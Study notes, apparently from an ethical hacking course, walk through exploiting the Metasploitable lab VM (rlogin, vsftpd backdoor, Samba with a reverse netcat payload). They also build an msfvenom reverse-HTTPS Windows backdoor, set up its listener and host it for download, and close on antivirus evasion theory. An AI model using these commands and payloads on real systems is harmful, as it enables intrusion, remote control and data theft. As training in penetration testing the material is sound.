

GAINING ACCESS - SERVER SIDE ATTACKS
===

This lecture serves as the **Introduction** to the next major phase of the course: **Gaining Access** (System Hacking).

You have graduated from attacking the *network* (the roads) to attacking the *devices* (the houses).

### 1. The Mindset: "Everything is a Computer"
The instructor wants you to change how you see electronics. A "target" isn't just a laptop.
* **The Reality:** A Smartphone, a Smart TV, a Wifi Router, and a giant Web Server are all fundamentally the same thing.
* **The Architecture:** They all have:
    1.  **Hardware**
    2.  **Operating System** (Windows, Linux, Android)
    3.  **Programs/Apps** running on top.
* **The User:** There is usually a human interacting with or configuring it.

If you learn how to hack a computer, you automatically learn the concepts for hacking a phone or a web server.

### 2. The Two Paths of Attack
There are two distinct ways to break into a computer. The course will cover both.

#### Path A: Server-Side Attacks
* **The Strategy:** Attacking the machine directly.
* **User Interaction:** **None.** You do not need the victim to click anything.
* **The Key:** You only need the target's **IP Address**.
* **How it works:** You scan the IP to see what "doors" (ports) are open and what software is running. If the software has a bug (vulnerability), you exploit it to break in.
* *Analogy:* Finding an unlocked window in a house and climbing in while the owner is asleep.

#### Path B: Client-Side Attacks
* **The Strategy:** Attacking the human user.
* **User Interaction:** **Required.** The victim must do something (download a file, click a link, install an update).
* **The Key:** **Information Gathering** about the person (Social Engineering).
* **How it works:** You create a **Trojan** (a virus hidden inside a picture or PDF) and trick the user into opening it.
* *Analogy:* Knocking on the front door disguised as a delivery driver and tricking the owner into letting you in.

### 3. Post-Exploitation (The "What Now?")
This is the final phase. Once you are inside (whether through a server-side bug or a client-side trick), what do you do?
* **Privilege Escalation:** Going from a "Guest" user to "Admin" (Root).
* **Pivoting:** Using the hacked computer to attack *other* computers on the same network.
* **Stealing Data:** Finding passwords, files, and secrets.

### Summary Roadmap
1.  **Server-Side:** Attack the software (No human needed).
2.  **Client-Side:** Attack the human (Social Engineering).
3.  **Post-Exploitation:** Control the system.

---

### <span style = "color: #569cd6">Metasploitable</span>

### 1. What is Metasploitable?
Metasploitable is a Linux-based Operating System that is **intentionally broken**.
* **The Concept:** It is designed to be extremely vulnerable. It comes pre-installed with dozens of security flaws, open ports, and weak configurations.
* **The Purpose:** It acts as a safe "punching bag." It allows you to practice dangerous server-side attacks legally and safely in your own lab.
* **Role:** You will almost never "use" this machine (i.e., you won't type documents on it). You will simply turn it on and attack it from your Kali Linux machine.


### 2. Installation Steps
The process is very similar to how you installed your Windows VM, but simpler because it comes pre-packaged.

**Step A: Download & Extract**
* Download the zip file (link provided in your course resources).
* **Extract/Unzip** the file. Do not try to open it directly from the zip; you must extract the folder first.

**Step B: Import to VMware**
* Open VMware.
* Click **Open a Virtual Machine**.
* Navigate to the extracted folder and select the **Metasploitable** file (usually ends in `.vmx`).

**Step C: Network Configuration (Crucial)**
* Before starting it, check the **Settings**.
* Ensure the Network Adapter is set to **NAT**.
* *Why?* It needs to be on the same network as your Kali Linux machine so they can "see" each other.

### 3. Running the Server
* Click **Start**.
* **Note:** This machine does *not* have a graphical interface (no mouse, no desktop icons). It is a command-line interface (CLI) only, which is typical for servers.
* **Login Credentials:**
    When prompted, type the following (note: the password will not show on screen as you type):

| Field | Value |
| :--- | :--- |
| **Username** | `msfadmin` |
| **Password** | `msfadmin` |


### 4. Why "Server-Side"?
The instructor mentions this is for "Server-Side Attacks."
* **Windows VM:** Used for **Client-Side** attacks (where you trick a human into clicking a link).
* **Metasploitable:** Used for **Server-Side** attacks (where you find a software bug and break in without any human interaction).
This lecture lays the ground rules for **Server-Side Attacks**.
---
Before you learn *how* to break in, you must understand *when* you are allowed to use these attacks.

### 1. The Definition: Server-Side Attacks
* **What are they?** Attacks that target the operating system or applications directly.
* **The Key Feature:** **No User Interaction Required.** You do not need the victim to click a link, download a file, or even be awake.
* **The Target:** You attack the software (e.g., a bug in the web server software), not the human.

### 2. The Golden Rule: "Can you Ping it?"
This is the most important technical takeaway from the lecture. You can only launch a server-side attack if you can communicate **directly** with the target machine.

* **The Problem (NAT):** Most home users (personal computers) are hidden behind a Router.
    * If you try to attack your friend in another city using their IP address, you will hit their **Router**, not their laptop. The router blocks you.
* **The Exception:** You **can** attack personal computers if they are on the **Same Network** (LAN) as you, because you can talk to them directly without a router blocking the way.
* **The Ideal Target (Servers):** Web servers (like Facebook, Google, or the Metasploitable VM) are designed to be talked to. They have "Real IPs" (Public IPs) that accept connections from anyone.

**Summary:**
* **Personal Computer (Remote/Different City):** Server-Side attacks usually **fail** (Blocked by Router).
* **Personal Computer (Local/Same Wifi):** Server-Side attacks **work**.
* **Web Server:** Server-Side attacks **work** best.

### 3. The Test: Verification
Before attempting any hack in this section, the instructor performs a simple test:
1.  Get the target IP (Metasploitable): `10.20.14.204`
2.  Go to the Attacker machine (Kali).
3.  Run `ping 10.20.14.204`.
4.  **Result:** If you get a reply, the path is clear. You can attack.

### 4. "Everything is a Computer"
The instructor reinforces the mindset shift.
* Metasploitable looks like a text-only command line.
* But when he opens a browser and types its IP, a website appears.
* **Lesson:** A "Web Server" is just a normal computer running a piece of software (like Apache) that shows websites. If you hack that software, you own the computer.

---

### <span style = "color: #569cd6">Basic Information Gathering & Exploitation</span>

Before you can hack a server, you need to know exactly what is running on it. You are looking for "open doors" (Ports) and checking if any of them were left unlocked (Misconfigurations) or have broken locks (Vulnerabilities).

### 1\. The Tool: Zenmap (Nmap)

The instructor uses **Zenmap** (the graphical version of Nmap) to scan the target.

  * **The Goal:** To list every **Service** (program) running on the target and which **Port** number it is listening on.
  * **The Concept:** "Everything is a computer." Whether you are scanning a massive website like Facebook or a small virtual machine like Metasploitable, the process is identical: Find the IP, scan the ports.

### 2\. The Analysis Strategy

Once the scan finishes, you get a long list of open ports. The hacking process is surprisingly simple: **Research them one by one.**

1.  **Pick a Port:** Look at the service name (e.g., `vsftpd`, `apache`, `exec`).
2.  **Google It:** Search for "[Service Name] vulnerabilities" or "[Service Name] default password."
3.  **Check for Misconfigurations:**
      * **Default Passwords:** Did the admin leave the password as `admin` or `root`?
      * **Backdoors:** Does this specific version of the software have a secret entrance left by the developers?
      * **Misconfigurations:** Is the service configured to let *anyone* in without a password?

### 3\. Vulnerability \#1: FTP (Port 21)

The scan reveals **Port 21** is open running an FTP service.

  * **The Flaw:** Zenmap reports "Anonymous FTP login allowed."
  * **Meaning:** The server is configured to let anyone log in without a valid account.
  * **The Fix/Exploit:** You could simply open a tool like FileZilla, connect to the IP, and download their files without hacking anything.

### 4\. Vulnerability \#2: Rlogin (Port 512)

The instructor focuses on **Port 512**, running a service called `exec` or `rlogin`.

  * **The Research:** Googling this service reveals it is a "Remote Execution" tool used to manage Linux computers remotely (similar to SSH but older and less secure).
  * **The Exploit:** The instructor tries to connect using the standard Linux command line tool `rlogin`.

**The Command:**

```bash
rlogin -l root 10.20.14.204
```

  * `-l root`: "I want to login as the Administrator (root)."
  * `10.20.14.204`: The target IP.

**The Result:**
Because the service was misconfigured, it **did not ask for a password**. The instructor was immediately dropped into a root shell.

  * **Verification:** He types `id` and sees `uid=0(root)`, confirming he has full control over the machine.

### Key Takeaway

You don't always need complex exploits or custom malware to hack a server. Often, the biggest vulnerability is simply a **Misconfiguration**—an administrator who installed a service and forgot to put a password on it.

---

### <span style = "color: #569cd6">Hacking a Remote Server Using a Basic Metasploit Exploit</span>

You are moving from manual exploitation (guessing passwords) to using automated, professional-grade tools to exploit specific code vulnerabilities (Backdoors).

### 1\. The Vulnerability: A Backdoor

A **Backdoor** is a secret entrance into a program left by the developers (intentionally or accidentally) that allows access without the normal authentication.

  * **The Target:** `vsftpd v2.3.4` (Very Secure FTP Daemon).
  * **The Flaw:** This specific version was hacked by an intruder in 2011 who added a malicious line of code. Anyone attempting to log in with a username containing a smiley face `:)` would trigger the backdoor and open a shell on port 6200.
  * **Discovery:** The instructor found this by simply Googling the service name found in Nmap (`vsftpd 2.3.4 exploit`), which led to the **Rapid7** database.

### 2\. The Tool: Metasploit Framework (MSF)

Metasploit is a massive database of "weaponized" exploits. Instead of writing code from scratch to hack a server, you simply select the exploit from Metasploit's library and fire it.

**Key Vocabulary:**

  * **Exploit:** The code that breaks in (The missile).
  * **Payload:** The code that runs *after* you break in (The explosive inside the missile).
  * **Module:** A piece of software inside Metasploit (can be an exploit, a scanner, etc.).

### 3\. The Commands (Cheat Sheet)

The instructor introduces the "Language of Metasploit." You will use these four commands constantly throughout your career.

| Command | Usage | Meaning |
| :--- | :--- | :--- |
| `msfconsole` | `root@kali:~# msfconsole` | Starts the program. |
| `use` | `use exploit/unix/ftp/vsftpd_234_backdoor` | Selects the weapon you want to use. |
| `show options` | `show options` | Displays the settings you need to configure (like Target IP). |
| `set` | `set RHOST 10.20.14.204` | Configures a setting. |
| `exploit` | `exploit` | Launches the attack. |

### 4\. Step-by-Step Execution

Here is the exact workflow used in the lecture to hack the server:

1.  **Launch:**
    ```bash
    msfconsole
    ```
2.  **Select Exploit:**
    The instructor found the exploit name on the Rapid7 website.
    ```bash
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```
3.  **Configure Target:**
    He checks the options and sees that `RPORT` (Remote Port) is already 21. He only needs to set the `RHOST` (Remote Host / Target IP).
    ```bash
    show options # to see options
    set RHOST 10.20.14.204
    ```
4.  **Fire:**
    ```bash
    exploit
    ```
5.  **Verification:**
    The terminal changes. He types `id` and sees `uid=0(root)`.
      * **Result:** He has full administrative control over the server.

### 5\. Troubleshooting

Did you notice the exploit failed the first time?

  * **Attempt 1:** Ran `exploit`, nothing happened.
  * **Attempt 2:** Ran `exploit` again immediately, and it worked.
  * **Lesson:** Hacking tools can be unstable. If an exploit fails but you are *sure* the target is vulnerable, always try again.

---

### <span style = "color: #569cd6">Exploiting a Code Execution Vulnerability to Hack Remote Server</span>

This lecture introduces a significant jump in complexity. You are moving from simply "walking through an open door" (Backdoors) to "breaking the lock" (Code Execution Vulnerabilities).

In the previous lecture, the FTP backdoor was essentially a "feature" left by a hacker; you just had to connect to it. In this lecture, the Samba program is *not* designed to let you in. You are forcing it to run your code by exploiting a programming mistake. This requires you to send a **Payload**.

### 1\. The Target: Samba (Port 139)

  * **What is Samba?** It is a service that allows Linux computers to share files with Windows computers.
  * **The Vulnerability:** You discovered that `Samba 3.x` is running on Port 139.
  * **The Research:** Googling "Samba 3.x exploit" leads to a rapid7 page describing the `usermap_script` vulnerability. This flaw allows a hacker to trick the server into running terminal commands.

### 2\. The New Concept: Payloads

This is the most critical concept in this lecture.

  * **The Exploit** is the *method* of breaking in (the drill).
  * **The Payload** is the *code* you want to run once you are inside (what you do after drilling the hole).

Since this isn't a pre-made backdoor, the server doesn't know what to do once you break in. You have to tell it. You do this by selecting a Payload.

### 3\. Bind Shell vs. Reverse Shell

When choosing a payload, you generally have two "directions" for the connection. Understanding the difference is vital for bypassing Firewalls.

  * **Bind Shell:**
      * **How it works:** You tell the victim to open a port (e.g., 4444) and wait for you to connect.
      * **The Problem:** Firewalls usually block *incoming* connections. If you try to connect to the victim's random port, the firewall will stop you.
  * **Reverse Shell (The Hacker's Choice):**
      * **How it works:** You tell the victim to connect *back* to you.
      * **The Advantage:** Firewalls usually allow *outgoing* connections (so employees can browse the web). The firewall sees the victim computer reaching out to the internet (you) and allows it.

### 4\. The Execution Steps

The workflow follows the standard Metasploit pattern, but with an extra step for the Payload.

**Step A: Select the Exploit**

```bash
use exploit/multi/samba/usermap_script
show options
```

**Step B: Configure the Target**

```bash
set RHOST 10.20.14.204
```

*(RHOST = Remote Host = The Victim)*

**Step C: Select the Payload**
The instructor chooses a "Reverse Netcat" payload.

```bash
show payloads # to see payloads
set PAYLOAD cmd/unix/reverse_netcat
```

**Step D: Configure the Attacker (Crucial)**
Because this is a **Reverse** connection, the victim needs to know *where* to send the connection back to.

```bash
set LHOST 10.20.14.203
```

*(LHOST = Listening Host = YOUR IP Address)*

**Step E: Fire**

```bash
exploit
```

### 5\. The Result

1.  Metasploit sends the exploit to the Samba service.
2.  The exploit tricks Samba into executing the Payload.
3.  The Payload (Reverse Netcat) tells the server: "Connect back to `10.20.14.203`."
4.  Your Kali machine receives the connection.
5.  **Result:** You see `Command shell session 1 opened`. You type `id` and see `uid=0(root)`. You have total control.

---

### <span style = "color: #569cd6">Nexpose</span>

This lecture introduces **Nexpose**, an enterprise-grade vulnerability management framework developed by Rapid7 (the creators of Metasploit). Unlike the smaller tools used previously, Nexpose is designed to manage the entire security lifecycle for large organizations.

### 1\. What is Nexpose?

Nexpose is a comprehensive **Vulnerability Management Framework**.

  * **Purpose:** It doesn't just find open ports; it identifies vulnerabilities, verifies if exploits exist (often linking to Metasploit), and generates detailed reports for both technical teams and management.
  * **Target Audience:** Large enterprises with powerful infrastructure.
  * **Requirements:** It is very resource-hungry, requiring a minimum of **8GB of RAM** and significant storage.
      * *Note:* The instructor mentions that if your lab computer cannot handle these specs, it is acceptable to just watch the lecture, as this tool is typically provided on dedicated hardware in a real job.


---

### <span style = "color: #569cd6">Server-Side Attacks Conclusion</span>

### 1. The Universal Workflow
The instructor emphasizes that whether you are doing a Capture The Flag (CTF) challenge or a real-world penetration test, the steps are always the same loop:

1.  **Discovery (Nmap):** Find the target and list all open ports (e.g., Port 21, Port 80, Port 139).
2.  **Enumeration (Version Detection):** Identify exactly *what* is running on those ports (e.g., "Apache 2.2.8" or "Samba 3.x").
3.  **Vulnerability Research:** Google is your best weapon here.
    * *Search Query:* "[Service Name] [Version] exploit" or "[Service Name] vulnerability".
    * *Sources:* Exploit-DB, Rapid7, CVE databases.
4.  **Exploitation:**
    * If available, use **Metasploit** (easy mode).
    * If not, find a manual script (python/bash) and learn how to run it (hard mode).
5.  **Verification:** Confirm the attack worked (e.g., gaining a shell) and document it.

### 2. The Reality of Hacking
* **The Constant:** The methodology (Scan $\rightarrow$ Search $\rightarrow$ Exploit).
* **The Variable:** The specific exploit.
    * The instructor notes he cannot teach you *every* exploit because there are thousands. The skill lies in **researching** the specific service you found and figuring out how to break it on the fly.

### 3. What if Server-Side Attacks Fail?
If you scan a server and every single service is patched and secure (no vulnerabilities found), you cannot break in using the "Server-Side" approach.

* **The Alternative:** You must switch to **Client-Side Attacks**.
* **The Logic:** If the *machine* is secure, attack the *human* using it. Instead of forcing your way in through a digital hole, you trick the user into opening the door for you (e.g., sending a fake update or a virus hidden in a PDF).


---

GAINING ACCESS - CLIENT SIDE ATTACKS
===
This lecture introduces the second major path to hacking a system: **Client-Side Attacks**.

If Server-Side attacks are about breaking down the front door (exploiting a vulnerability in the machine), Client-Side attacks are about tricking the person inside into unlocking it for you.


### 1. When to use Client-Side Attacks?
The instructor explains that Server-Side attacks are preferred because they are cleaner (no user interaction), but they often fail in two scenarios:
* **Scenario A: The System is Secure.** The target has updated their software and has no open ports or vulnerabilities.
* **Scenario B: The Target is Hidden (NAT).**
    * If you try to hack a friend in a different city, you cannot ping their laptop directly. You only hit their Router (Public IP). The router acts as a shield, blocking any direct connection you try to make to the laptop.


### 2. The Core Concept: Reverse Connection
Since you cannot connect to *them* (because of the router/firewall), you must make them connect to *you*.
* **The Trap:** You send the victim a file (a fake update, a PDF, an image) or a link.
* **The Interaction:** The victim *must* open it. This is the weakness of this method—if they ignore it, the attack fails.
* **The Payload:** Once opened, the malicious code inside executes and sends a connection *out* from their laptop *back* to your machine. Firewalls usually allow outgoing traffic, so the connection succeeds.

### 3. The Shift in Information Gathering
In Server-Side attacks, you scanned for *ports* and *versions*. In Client-Side attacks, you scan the **Human**.
* **Social Engineering:** You need to know the victim's habits to trick them effectively.
    * *Who are their friends?* (So you can pretend to be one).
    * *What websites do they trust?* (So you can clone them).
    * *What software do they use?* (So you can send a fake update for that specific tool).

### Summary Comparison

| Feature | Server-Side Attacks | Client-Side Attacks |
| :--- | :--- | :--- |
| **Target** | The Machine (OS/Software) | The Human (User) |
| **User Interaction** | None (Silent) | **Required** (Click/Open) |
| **Main Obstacle** | Patches/Updates | Common Sense/Paranoia |
| **Best For** | Servers / Local Networks | Remote Users / Protected Networks |

---

### <span style = "color: #569cd6">Backdoors and Payload Basics</span>

### **1. Key Definitions**

Before you can build them, you need to understand the two main components mentioned:

  * **The Backdoor (The "Vehicle"):**
    This is the actual file (like an `.exe` program) that the victim runs. To the user, it might look like a game or a document, or it might be invisible. Its job is to carry the malicious code into the system.
  * **The Payload (The "Driver"):**
    This is the specific code *inside* the backdoor that does the actual work. It is what gives you control.
      * *Think of it this way:* If the Backdoor is a Trojan Horse, the Payload is the soldiers hiding inside.

**What can a payload do?**
Once executed, it allows you to:

  * Run system commands.
  * Upload/Download files.
  * Keylog (record what they type).
  * Turn on the webcam.
  * View their desktop remotely.


### **2. The Tool: msfvenom**

The lecturer introduces **`msfvenom`** (part of the Metasploit framework) as the industry standard for generating these payloads.

  * **Why start here?** While advanced hackers use custom tools to bypass antivirus software, `msfvenom` is the best place to learn the *mechanics* of how payloads work.
  * **How to check it:** In Kali Linux, the command `msfvenom --list` shows every possible payload available.

### **3. Decoding the Payload Name**

This is the most technical part of the lecture. `msfvenom` payload names look like long file paths (e.g., `windows/shell/reverse_tcp`). The lecturer explains that this isn't random; it follows a strict "Grammar":

**`[Platform] / [Type] / [Communication Method]`**

#### **Part A: Platform**

This tells `msfvenom` which operating system or environment the payload is for.

  * **OS Specific:** `windows`, `linux`, `android`, `apple_ios`.
  * **Language Specific:** `python`, `php`, `java`.
      * *Note:* Language payloads are special. A `python` payload will run on Windows, Linux, or Mac, as long as that computer has Python installed.

#### **Part B: Type**

This defines *what* creates the connection and what capabilities you get.

  * **Shell:** Gives you a basic command line (like `cmd.exe` on Windows or `bash` on Linux). You can type commands, but it's basic.
  * **Meterpreter:** The "Swiss Army Knife" of payloads. It runs entirely in the computer's memory (making it harder to detect) and has advanced features like encryption and modular plugins.
  * **VNC:** Gives you visual control of their desktop (like TeamViewer).
  * **Msgbox:** Just pops up a message box. (Useful for "Proof of Concept"—proving you *could* hack them without actually damaging anything).

#### **Part C: Communication Method**

This describes how the payload talks back to you. It usually consists of a **Protocol** (TCP, HTTP, HTTPS) and a **Direction** (Bind or Reverse).

### **4. Deep Dive: Bind vs. Reverse Shells**

The lecturer spends a lot of time here because picking the wrong one means your hack will fail.

#### **Option 1: Bind Shell (Direct Connection)**

  * **How it works:** The backdoor opens a "port" (a door) on the *victim's* computer. You (the hacker) then connect to that IP address and port.
  * **The Problem:** Firewalls hate this. Firewalls are designed to stop strangers from entering. If a random computer tries to connect to a victim's PC, the firewall usually blocks it immediately.

#### **Option 2: Reverse Shell (Connect-Back)**

  * **How it works:** You open a port on *your* computer (the hacker's machine) and wait. When the victim runs the backdoor, *their* computer calls *you*.
  * **The Advantage:** Firewalls are usually configured to stop people coming *in*, but they allow users to send traffic *out* (like browsing the web).
  * **The Trick:** If you configure your reverse shell to use port **80** (HTTP) or **443** (HTTPS), the traffic looks exactly like the victim is just browsing a website. This is how you bypass firewalls.

### **5. Examples from the Text**

| Payload Name | Breakdown | Meaning |
| :--- | :--- | :--- |
| `windows/shell/reverse_tcp` | **Platform:** Windows<br>**Type:** Shell<br>**Comm:** Reverse TCP | A basic command line for Windows that connects back to you over raw TCP. |
| `python/meterpreter/reverse_http` | **Platform:** Python<br>**Type:** Meterpreter<br>**Comm:** Reverse HTTP | A powerful Meterpreter payload written in Python. It connects back to you pretending to be web traffic. |
| `apple_ios/armle/meterpreter_reverse_http` | **Platform:** iOS (ARM64)<br>**Type:** Meterpreter<br>**Comm:** Reverse HTTP | A payload specifically for modern iPhones (ARM64 chips) that connects back to you. |

### **Summary Checklist**

1.  **Backdoor** = The container program.
2.  **Payload** = The malicious code inside.
3.  **Naming Convention** = Platform / Type / Connection.
4.  **Reverse Connections** are usually better than **Bind Connections** because they bypass firewalls.

---

### <span style = "color: #569cd6">Creating Your Own Backdoors</span>

### **The Goal: Creating a Windows Backdoor**

In the previous lecture, you learned the theory. Now, the instructor is moving to practice. The objective is to create a malicious `.exe` file that, when opened by a Windows user, will give you (the hacker) full control over their machine.

### **1. The Command Breakdown**

The instructor builds a single, long command step-by-step. Let's deconstruct it so you understand every flag.

The final command looks like this:

`msfvenom --payload windows/meterpreter/reverse_https LHOST=192.168.0.26 LPORT=8080 --format exe --out rev_https_8080.exe`

Here is what each part does:

#### **A. Selecting the Payload (`--payload` or `-p`)**
* **Command:** `--payload windows/meterpreter/reverse_https`
* **Explanation:**
    * **Platform (`windows`):** We are targeting a Windows computer.
    * **Type (`meterpreter`):** We want the advanced "Swiss Army Knife" payload that runs in memory and encrypts communication.
    * **Communication (`reverse_https`):** We want the victim's computer to call *us* back using the HTTPS protocol. This makes the traffic look like normal web browsing, helping it bypass firewalls.

#### **B. Configuring the Connection (`LHOST` and `LPORT`)**
Before `msfvenom` can build the file, it needs to know *where* to send the connection back to.


* **LHOST (Local Host):**
    * **Command:** `LHOST=192.168.0.26` (Note: *You must use your own IP address here.*)
    * **How to find it:** Run `ifconfig` in your terminal to see your current IP.
    * **Purpose:** This tells the backdoor, "When you wake up, call *this* specific IP address."
* **LPORT (Local Port):**
    * **Command:** `LPORT=8080`
    * **Purpose:** This is the specific "door" on your computer the backdoor will knock on.
    * **Why 8080?** Ports 80 and 8080 are standard for web traffic. By using 8080 combined with HTTPS, the malicious connection blends in with legitimate internet activity.

#### **C. Formatting the Output (`--format` and `--out`)**
* **Format:** `--format exe` tells `msfvenom` to package the code as a standard Windows executable application.
* **Output Name:** `--out rev_https_8080.exe` names the file. The instructor uses a descriptive name so they remember exactly what this specific backdoor does later.

### **2. Visualizing the Process**

It helps to visualize the flow of information during this setup.

1.  **Input:** You give `msfvenom` the Blueprint (Payload) and the Address (LHOST/LPORT).
2.  **Processing:** `msfvenom` compiles this into binary code.
3.  **Output:** You get a `.exe` file in your root directory.

### **3. Key Practical Tips from the Lecture**

* **Check Options First:** Before generating, you can run `msfvenom --payload [name] --list-options`. This is crucial because different payloads require different settings. For example, some might need an encryption key or different parameters.
* **Know Your Directory:** The instructor checks `pwd` (print working directory) to verify where the file will land. By default in Kali, this is often the `/root` folder.
* **Verify Creation:** Always check your file manager or run `ls` after the command finishes to ensure the `.exe` was actually created and has a file size greater than zero.


---

### <span style = "color: #569cd6">Listening for Backdoors Connections</span>

### **The Big Idea: The "Pitcher and Catcher"**

To understand this lecture, think of a game of baseball.

  * **The Backdoor (from the previous lecture):** This is the **ball**. You gave it to the victim (the pitcher), and eventually, they are going to throw it back to you.
  * **The Listener (this lecture):** This is the **catcher's mitt**.

If the victim throws the ball (executes the backdoor) but you aren't standing there with your mitt open (listening), the ball just hits the ground. The connection fails. This lecture is entirely about setting up that "mitt" to catch the incoming connection.

### **1. The Tool: Metasploit Framework**

While we used `msfvenom` to *create* the payload, we use the main **Metasploit Console (`msfconsole`)** to *manage* the attack.

The instructor uses a specific module called the **Multi-Handler**.

  * **Command:** `use exploit/multi/handler`
  * **What it is:** This is a generic "listener." It doesn't care *how* you hacked the computer; its only job is to wait for a connection to come back home.

### **2. The Golden Rule: Mirroring**

This is the most critical part of the lecture. The configuration of your Listener **must exactly mirror** the configuration of your Backdoor. If even one digit is off, the connection will fail.

The instructor emphasizes three settings that must match:

| Setting | In the Backdoor (`msfvenom`) | In the Listener (`msfconsole`) | Why? |
| :--- | :--- | :--- | :--- |
| **PAYLOAD** | `windows/meterpreter/reverse_https` | `windows/meterpreter/reverse_https` | If the backdoor speaks "HTTPS" but the listener expects "TCP," they won't understand each other. |
| **LHOST** | `192.168.0.26` (Your IP) | `192.168.0.26` (Your IP) | The listener needs to know which network interface to bind to. |
| **LPORT** | `8080` | `8080` | If the backdoor knocks on door 8080, but you are listening at door 4444, no one answers. |

### **3. The Setup Steps**

Here is the workflow the instructor follows in the console:

**Step 1: Load the Module**

```bash
use exploit/multi/handler
```

  * *Translation:* "I want to use the tool that listens for incoming connections."

**Step 2: Fix the Payload**
By default, Metasploit might load a generic payload (like `reverse_tcp`). You have to change it.

```bash
set PAYLOAD windows/meterpreter/reverse_https
```

  * *Translation:* "I am expecting a Windows Meterpreter connection over HTTPS."

**Step 3: Set the Address (LHOST)**

```bash
set LHOST 192.168.0.26
```

  * *Translation:* "Listen on my IP address." (Remember to use `ifconfig` to find your *actual* IP).

**Step 4: Set the Port (LPORT)**

```bash
set LPORT 8080
```

  * *Translation:* "Open port 8080 and wait."

**Step 5: Verify**

```bash
show options
```

  * *Translation:* "Show me the current configuration so I can double-check for typos."

### **4. Launching the Attack**

Once the settings are perfect, the instructor types:

```bash
exploit
```

(Or sometimes you will see `run`, which does the same thing).

**What happens next?**
The terminal will likely appear to "freeze" or hang. It will say something like:
`[*] Started HTTPS reverse handler on 192.168.0.26:8080`

**This is normal.** It means the trap is set. Your computer is now actively listening to that port, ignoring everything else, just waiting for the victim to click the `.exe` file you created.

### **Summary Checklist**

1.  **Backdoor** = Sends the signal.
2.  **Listener** = Receives the signal.
3.  **Configuration** = Must be an exact mirror image (Payload, IP, Port).
4.  **Action** = Type `exploit` to start waiting.

---

### <span style = "color: #569cd6">Hacking Windows 11 Using Your Own Backdoors</span>

### **The Big Picture: Delivery and Execution**
We have built the bomb (the Backdoor), we have set the trap (the Listener), and now this lecture is about **Delivery**. The instructor shows a simple way to move the file from your hacker machine (Kali) to the victim machine (Windows) to prove that the connection works.

### **1. The Transfer Method: Apache Web Server**
Real hackers use sophisticated methods (fake emails, USB drives, Trojan websites), but for testing, the instructor uses the simplest method available: **hosting a website on his own computer.**

* **The Concept:** Kali Linux comes with a built-in web server software called **Apache**. By turning this on, your hacker computer effectively becomes a website. Anyone on your local network (like the Windows victim machine) can type in your IP address and download files from you.

#### **Step-by-Step Setup:**
1.  **Locate the Web Folder:**
    * On Linux, the "public" folder for websites is almost always `/var/www/html/`.
    * Whatever you put in this folder is visible to the network.
2.  **Move the Backdoor:**
    * The instructor creates a folder called `evil-files` inside that directory.
    * He copies the `rev_https_8080.exe` file into `/var/www/html/evil-files/`.
3.  **Start the Service:**
    * **Command:** `service apache2 start`
    * *Translation:* "Computer, please turn on the web server software now."

### **2. The Security Barrier: Antivirus**
This is a critical "reality check" in the lecture.

* **The Problem:** The backdoor we created is "raw." It hasn't been disguised or encoded. Modern antivirus software (like Windows Defender) recognizes `msfvenom` signatures instantly and will delete the file the moment it touches the disk.
* **The Temporary Fix:** Because this is just a learning exercise to test connectivity, the instructor explicitly turns **OFF** all protections on the Windows machine (Real-time protection, Cloud-delivered protection, etc.).
    * *Note:* In later lectures (as hinted), you will learn "Evasion" techniques to bypass these checks. For now, we are "cheating" to make sure the networking works.

### **3. The Execution (The "Click")**
1.  **Download:** On the Windows machine, the user opens a browser and types the hacker's IP: `192.168.0.26/evil-files`.
2.  **Run:** The user downloads and double-clicks the `.exe` file.
    * *Visual:* To the Windows user, nothing happens. No game opens, no document appears. It looks like the file failed.
3.  **Connection:** However, on the Kali Linux machine, the terminal changes.



### **4. The Success State: "Meterpreter Session Opened"**


When the connection is successful, your listener terminal transforms.
* **Old Prompt:** `msf6 >` (The standard Metasploit menu).
* **New Prompt:** `meterpreter >`

This prompt is your "Remote Control" command line. You are no longer typing commands for your own computer; you are typing commands that execute inside the victim's memory.

**The Verification Command:**
* **Command:** `sysinfo`
* **Output:** It lists the Computer Name, OS (Windows 10), and Architecture of the *victim*. This proves you are "inside."

### **Summary Checklist**
1.  **Transfer:** Used the `/var/www/html` folder to host the file.
2.  **Service:** Started `apache2` to make the file downloadable.
3.  **Evasion:** Disabled Windows Defender (temporarily) because the payload is raw.
4.  **Success:** The `meterpreter >` prompt confirms full control.

### **Final Course Recap**
You have now walked through the entire lifecycle of a basic client-side attack:
1.  **Creation:** Used `msfvenom` to build a payload.
2.  **Listening:** Used `msfconsole` to wait for the call.
3.  **Execution:** Delivered and ran the file to get a shell.

---

### <span style = "color: #569cd6">How to Bypass Anti-Virus Programs</span>

### **The Challenge: Getting Past the Guard**

In the previous lectures, you built a working backdoor and tested it. However, you had to turn *off* Windows Defender to make it work. In the real world, victims won't do that for you. This lecture explains the theory of **Evasion**—how to trick the security guard (Antivirus/AV) so you can sneak your backdoor in.

### **1. How Antivirus (AV) Works**

To beat the system, you must understand how it detects you. The instructor explains two main methods AV uses:

#### **Method A: Static Analysis (The Mugshot Check)**
* **How it works:** This is the simplest form of detection. The AV looks at the *code* of your file without running it. It compares your file's "fingerprint" against a massive database of known bad files.
* **The Metaphor:** Imagine a security guard at an airport holding a book of mugshots of known criminals. When you walk up, he looks at your face. If you look like "Criminal #452," you are arrested immediately.
* **Why `msfvenom` fails here:** Since `msfvenom` is a standard tool used by millions, its "mugshot" (code signature) is already in every AV database.
* **How to Bypass:**
    * **Change the Face:** You need to make your code look unique so it doesn't match the database.
    * **Tools:** Packers, Encoders, Obfuscators (Làm rối mã nguồn). These tools scramble the code so it looks different but functions the same.
